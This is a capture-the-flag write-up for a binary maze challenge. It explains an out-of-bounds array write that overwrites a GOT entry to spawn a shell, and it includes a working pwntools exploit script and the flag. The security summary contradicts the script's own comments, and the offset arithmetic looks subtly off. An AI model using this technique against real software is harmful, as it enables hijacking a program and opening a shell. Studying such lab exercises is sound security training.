


# aMAZEing - Writeup

---

## Challenge Overview

**aMAZEing** is a binary maze game challenge where logic, memory, and vulnerability exploitation come together. The objective is to escape the maze — not through solving it, but by exploiting a flaw in its internal logic.

---

## Binary Details

```bash
$ file maze

```



```bash
$ checksec maze
```



### Security Summary

| Protection   | Status  |
| ------------ | ------- |
| RELRO        | Partial |
| Stack Canary | Yes     |
| NX           | Enabled |
| PIE          | Enabled |

---

## Vulnerability Analysis

The program allows the player to configure "coordinates" and "slot values" in the maze. Internally, the game logic uses a buffer called `maze_escape[]`, and inputs are used directly as indices without bounds checks.

```c
scanf("%d", &coordinates);
scanf("%d", &slot);
maze_escape[coordinates] = slot;
```

### Vulnerability: Out-of-Bounds Write

- There is no bounds check on the `coordinates` variable.
- This allows writing to memory beyond the intended array `maze_escape[]`.
- Specifically, it enables overwriting entries in the Global Offset Table (GOT), such as `puts@GOT`.
- By overwriting a GOT entry with the address of the `escape()` function, control flow is redirected to spawn a shell.

---

## Exploitation Plan

1. **Leak the PIE base address**: At startup, the binary prints the runtime address of `main()`, which can be used to calculate the full base address.
2. **Calculate offset to GOT**: Determine how far `puts@GOT` is from `maze_escape[]` in memory.
3. **Overwrite GOT entry**: Use the out-of-bounds vulnerability to overwrite the `puts@GOT` entry with the address of the `escape()` function.
4. **Trigger puts()**: The program will now call `escape()` instead, which executes `system("/bin/sh")`.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'maze')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

#io = start()
io = remote('localhost',1337)

# --------[BINARY BASE ADDRESS]---------

io.recvuntil(b'The maze begins at this location, your journey starts here @')
leak = io.recvline().strip()
main_addr = int(leak,16)

exe.address = main_addr - exe.sym['main']


offset=(exe.got['puts']-exe.sym['maze_escape'])/4
io.recvuntil(b'Configure coordinates (0 >=) : ')
io.sendline(b'%i' %offset)
io.recvuntil(b'Set slot value (10 >=) : ')
io.sendline(b"%i" %exe.sym['escape'])

io.interactive()

```

---

## Result

The overwritten GOT entry causes the program to call `escape()`, which executes:

```c
system("/bin/sh");
```

A shell is spawned, granting access to the system and allowing flag retrieval.

---

## Flag

```
flag{l0st_1n_th3_4m4z3_w1th_r34l_sh3ll}
```

---

Let me know if you'd like to generate a Markdown version, convert it to PDF, or integrate it into a CTF platform format.
